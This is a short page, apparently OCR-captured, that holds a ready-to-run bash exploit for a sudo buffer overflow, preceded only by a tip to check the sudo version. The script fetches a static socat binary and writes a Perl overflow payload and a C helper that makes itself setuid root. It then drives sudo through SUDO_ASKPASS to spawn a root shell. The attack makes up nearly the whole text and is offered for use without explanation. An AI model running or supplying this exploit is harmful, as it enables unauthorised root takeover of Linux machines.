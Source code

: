 

sudo -V   (this command will tell you sudo version then google it)




#!/bin/bash
# We will need socat to run this.
if [ ! -f socat ];
then
    wget https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
    chmod +x socat
fi

cat <<EOF > xpl.pl
\$buf_sz = 256;
\$askpass_sz = 32;
\$signo_sz = 4*65;
\$tgetpass_flag = "\x04\x00\x00\x00" . ("\x00"x24);
print("\x00\x15"x(\$buf_sz+\$askpass_sz) .
     ("\x00\x15"x\$signo_sz) .
     (\$tgetpass_flag) . "\x37\x98\x01\x00\x35\x98\x01\x00\x35\x98\x01\x00\xff\xff\xff\xff\x35\x98\x01\x00\x00\x00\x00\x00".
     "\x00\x00\x00\x00\x00\x15"x104 . "\n");
EOF

cat <<EOF > exec.c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
        printf("Exploiting!\n");
        int fd = open("/proc/self/exe", O_RDONLY);
        struct stat st;
        fstat(fd, &st);
        if (st.st_uid != 0)
        {
                fchown(fd, 0, st.st_gid);
                fchmod(fd, S_ISUID|S_IRUSR|S_IWUSR|S_IXUSR|S_IXGRP);
        }
        else
        {
                setuid(0);
                execve("/bin/bash",NULL,NULL);
        }
return 0;
}
EOF
cc -w exec.c -o /tmp/pipe
./socat pty,link=/tmp/pty,waitslave exec:"perl xpl.pl"&
sleep 0.5
export SUDO_ASKPASS=/tmp/pipe
sudo -k -S id < /tmp/pty
/tmp/pipe
